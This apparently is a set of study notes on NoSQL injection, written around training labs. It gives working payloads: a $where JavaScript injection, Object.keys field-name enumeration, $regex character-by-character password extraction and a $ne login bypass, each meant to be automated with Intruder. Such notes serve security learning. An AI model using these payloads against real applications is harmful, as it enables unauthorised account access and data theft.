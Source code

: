 ```json
administrator' && this.password[§0§]=='§a§
```

- First payload is the length of the password (e.g. 0-9)
- Second payload is the characters of the password (a-z)
# Exploiting NoSQL Operator Injection to Extract Data

If original query does not use any operators, try injecting one of the operators yourself and using boolean conditions to determine if the app executes any JavaScript injected. For example:

```json
{"username":"wiener","password":"peter"}
```

To test, try injecting operators such as `$where` as an additional parameter and send a request where the condition is FALSE and one where TRUE:

```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```

If it differs, it indicates evaluation. 

Try using the `keys()` method to extract names of data fields such as:

```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

It inspects first data field and returns the first character of the field name - use Intruder to automate the process for the rest of the characters.

Alternatively, try extracting data using operators that don't need JavaScript such as `$regex`. Consider the following example request:

```json
{"username":"myuser","password":"mypass"}
```

Start testing whether the `$regex` operator is processed:

```json
{"username":"admin","password":{"$regex":"^.*"}}
```

Check if response differs from an incorrect password submission. If so, use the `$regex` operator to extract data character by character via:

```json
{"username":"admin","password":{"$regex":"^a*"}}
```

It checks if the password begins with `a`.

As a lab example, it may be possible to enumerate various things by first changing the password parameter during login to `{"$ne":"invalid"}` and checking the response. In certain cases, it may not return the standard wrong password, but an account locked message, indicating the operator was accepted.
